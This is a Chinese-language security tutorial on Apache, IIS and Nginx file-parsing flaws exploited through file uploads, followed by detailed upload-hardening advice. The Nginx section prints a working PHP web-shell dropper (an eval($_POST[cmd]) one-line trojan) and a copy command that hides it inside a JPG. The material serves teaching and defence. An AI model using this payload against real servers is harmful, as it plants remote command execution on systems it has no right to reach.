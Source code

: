 ## 服务器解析漏洞

**Apache解析漏洞：**

Apache 解析文件的规则是从右到左开始判断解析,如果后缀名为不可识别文件解析,就再往左判断。比如test.php.owf.rar “.owf”和”.rar” 这两种后缀是apache不可识别解析,apache就会把wooyun.php.owf.rar解析成php。

若一个文件名abc.x1.x2.x3，Apache会从x3开始解析，如果x3不是一个能解析的扩展名，就往前解析x2以此往复，直到能遇到一个能解析的文件名为止。

**IIS解析漏洞：**
在test.asp/ jkl , IIS 的某些版本中会直接当成asp来解析; test.asp;jkl ,IIS某些版本也会按照asp 来解析；任意文件名/任意文件名.php，IIS 某些版本会直接当php来解析。

IIS6.0 在解析 asp 时有两个解析漏洞，一个是如果任意目录名包含 .asp 字符串，那么这个目录下的所有文件 都会按照 asp 去解析，另一个是文件名中含有 asp; 就会优先当作 asp 来解析。

IIS7.0/7.5 对php解析有所类似于 Nginx 的解析漏洞。只要对任意文件名在url后面追加上 字符串 / 任意文件名.php 就会按照php去解析。
例如，上传test.jpg，然后访问test.jpg/.php或test.jpg/abc.php当前目录下就会生成一句话木马 shell.php

**Nginx解析漏洞：**

将shell语句，如<?PHP fputs(fopen('shell.php','w'),'<?php eval($_POST[cmd])?>’);?>

写在文本xx.txt中(或者shell语句直接写一句话木马，用菜刀、cknife等直连，只是容易被查杀），然后用命令将shell语句附加在正常图片xx.jpg后copy xx.jpg/b + xx.txt/a test.jpg

上传test.jpg，然后访问test.jpg/.php或test.jpg/abc.php当前目录下就会生成一句话木马 shell.php 。


## 防御
**系统运行时的防御：**

- **文件上传的目录设置为不可执行。**只要web容器无法解析该目录下面的文件，即使攻击者上传了脚本文件，服务器本身也不会受到影响，因此这一点至关重要。
- **判断文件类型。**在判断文件类型时，可以结合使用MIME Type、后缀检查等方式。在文件类型检查中，强烈推荐白名单方式，黑名单的方式已经无数次被证明是不可靠的。此外，对于图片的处理，可以使用压缩函数或者resize函数，在处理图片的同时破坏图片中可能包含的HTML代码。
- **使用随机数改写文件名和文件路径。**文件上传如果要执行代码，则需要用户能够访问到这个文件。在某些环境中，用户能上传，但不能访问。如果应用了随机数改写了文件名和路径，将极大地增加攻击的成本。再来就是像shell.php.rar.rar和crossdomain.xml这种文件，都将因为重命名而无法攻击。
- **单独设置文件服务器的域名。**由于浏览器同源策略的关系，一系列客户端攻击将失效，比如上传crossdomain.xml、上传包含Javascript的XSS利用等问题将得到解决。
- **使用安全设备防御。**文件上传攻击的本质就是将恶意文件或者脚本上传到服务器，专业的安全设备防御此类漏洞主要是通过对漏洞的上传利用行为和恶意文件的上传过程进行检测。恶意文件千变万化，隐藏手法也不断推陈出新，对普通的系统管理员来说可以通过部署安全设备来帮助防御。

**系统开发阶段的防御**

系统开发人员应有较强的安全意识，尤其是采用PHP语言开发系统。在系统开发阶段应充分考虑系统的安全性。

对文件上传漏洞来说，最好能在客户端和服务器端对用户上传的文件名和文件路径等项目分别进行严格的检查。客户端的检查虽然对技术较好的攻击者来说可以借助工具绕过，但是这也可以阻挡一些基本的试探。服务器端的检查最好使用白名单过滤的方法，这样能防止大小写等方式的绕过，同时还需对%00截断符进行检测，对HTTP包头的content-type也和上传文件的大小也需要进行检查。

**系统维护阶段的防御**

系统上线后运维人员应有较强的安全意思，积极使用多个安全检测工具对系统进行安全扫描，及时发现潜在漏洞并修复。

定时查看系统日志，web服务器日志以发现入侵痕迹。定时关注系统所使用到的第三方插件的更新情况，如有新版本发布建议及时更新，如果第三方插件被爆有安全漏洞更应立即进行修补。

对于整个网站都是使用的开源代码或者使用网上的框架搭建的网站来说，尤其要注意漏洞的自查和软件版本及补丁的更新，上传功能非必选可以直接删除。除对系统自生的维护外，服务器应进行合理配置，非必选一般的目录都应去掉执行权限，上传目录可配置为只读。